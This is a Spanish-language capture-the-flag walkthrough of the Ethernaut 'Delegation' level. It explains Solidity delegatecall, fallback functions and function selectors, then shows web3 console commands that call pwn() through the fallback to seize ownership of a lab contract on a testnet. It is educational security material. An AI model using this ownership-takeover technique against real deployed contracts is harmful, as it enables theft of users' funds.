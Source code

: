 # Delegation

> Estas son las instrucciones en las que se basan este vídeo:

<p align="center">
  <a href="https://www.youtube.com/watch?v=X1VWUQW675w">
    <img src="https://img.youtube.com/vi/X1VWUQW675w/hqdefault.jpg" alt="Link al video de Youtube">
  </a>
</p>

Nuestro objetivo en este nivel es convertirnos en el **owner** de la instancia que nos dan. Nos dan varias pistas:

- Primero, tenemos que entender como funciona la función a bajo nivel de solidity llamada [delegatecall](https://docs.soliditylang.org/en/latest/introduction-to-smart-contracts.html#delegatecall-and-libraries).
- Métodos _fallback_
- _Identificadores_ de métodos

Vamos a obtener una nueva [instancia](https://sepolia.etherscan.io/tx/0xf4102e55b6fda3d50091a234af51473cef46c21522de9f67acab2714bbf1b6ca) del contrato confirmando la transacción en nuestra billetera de _MetaMask_ y mientras se despliega, investigamos en la documentación las pistas que nos han dado.

## delegatecall

Esta [función](https://docs.soliditylang.org/en/latest/introduction-to-smart-contracts.html#delegatecall-and-libraries) a bajo nivel nos permite que un contrato llame a una función de otro contrato y ejecute el código de ese contrato en el contexto del contrato que ha llamado. Esto significa que el contrato que realiza la llamada **`delegatecall`** tiene acceso a todas las variables de estado y a las funciones internas del contrato llamado.

## Método Fallback

El método [fallback](https://docs.soliditylang.org/en/latest/contracts.html#fallback-function) es una función especial que **se activa** cuando se envía una transacción a un contrato para una función que no existe o cuando se envía _ether_ directamente al contrato sin especificar una función. Es decir, es una función que se ejecuta cuando el contrato recibe una llamada que no coincide con ninguna función existente en el contrato.

## Identificadores de métodos

Cada función en un contrato, se identifica con un [selector](https://solidity-by-example.org/function-selector/) de función de **4 bytes**. Si queremos llamar a una función a bajo nivel, tenemos que saber su identificador.

## Análisis

El contrato que se ha desplegado es `Delegation`, y como el objetivo es convertirnos en los dueños, nos vamos a centrar en la variable `owner`. Esta variable se establece en el `constructor` a la dirección que ha desplegado el contrato.

También tenemos la función `fallback` que llama al otro contrato con un `delegatecall` y pasándole los datos de la transacción.

En el contrato **Delegate** tenemos la función `pwn()` que cambia el `owner` a la dirección que envíe la transacción. Entonces nos podemos aprovechar de que se está utilizando `delegatecall` para cambiar el `owner` del contrato objetivo utilizando la función de **Delegate**.

## Ataque

Vamos a comenzar con el ataque, y lo primero que vamos a hacer es comprobar quien es el `owner` del contrato:

```jsx
> await contract.owner()
'0x73379d8B82Fda494ee59555f333DF7D44483fD58'
```

Si queremos llamar a la función `pwn()` del contrato **Delegate** a través de la función **fallback**, tenemos que saber **cual es su identificador**. Hay muchas maneras de obtenerlo y en este caso vamos a utilizar la librería `web3` para consultarlo:

```jsx
> web3.eth.abi.encodeFunctionSignature("pwn()");
'0xdd365b8b'
```

Una vez tengamos este identificador, solo queda [enviar](https://sepolia.etherscan.io/tx/0x234196eb51802246ca4d6783eb6f899d8679dd18394247682a7ca585c9ed745f) una transacción al contrato desde nuestra dirección, llamando a la función `pwn()`.

```jsx
> await web3.eth.sendTransaction({from:player, data:"0xdd365b8b", to:instance})
```

De esta forma, se ejecutará la función `fallback`, que llamará a la función `pwn()` del otro contrato para modificar el dueño en este.

Cuando se haya confirmado la transacción, comprobaremos de nuevo quien es el dueño y veremos que ha cambiado a la nuestra.

```jsx
> await contract.owner()
```

Ya podemos [enviar](https://sepolia.etherscan.io/tx/0x0711365845bfab512efcab801724af5bad17a8320140b8289df3ec8867fa4c04) este nivel! Como dice _Ethernaut_, esta función ha sido el vector de ataque de muchos **hackeos**. Ya que estamos diciendole a otro contrato o librería, haz lo que quieras con mi estado o contexto. Uno de los **hackeos** más grandes fué el de la wallet multifirma de [Parity](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7) dónde se robaron **150.000 Ethers** que ha día de [hoy](https://coinmarketcap.com/es/converter/) serían [más](https://etherscan.io/address/0xb3764761e297d6f121e79c32a65829cd1ddb4d32) de **500 MILLONES DE DÓLARES**.
